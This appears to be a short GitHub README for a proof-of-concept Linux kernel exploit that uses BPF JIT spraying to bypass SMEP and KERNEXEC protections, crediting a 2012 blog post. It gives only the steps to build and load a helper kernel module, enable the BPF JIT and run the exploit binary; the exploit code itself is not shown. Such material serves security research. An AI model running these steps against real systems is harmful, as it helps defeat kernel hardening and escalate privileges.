 # Linux kernel JIT spray for SMEP / KERNEXEC bypass

All credit to source listed below:
http://mainisusuallyafunction.blogspot.com/2012/11/attacking-hardened-linux-systems-with.html 


## How to run:

```
cd ko && make
cd ..
sudo insmod ko/jump.ko
echo 1 | sudo tee /proc/sys/net/core/bpf_jit_enable
gcc -Wall -O2 -o alameda alameda.c
./alameda
```        
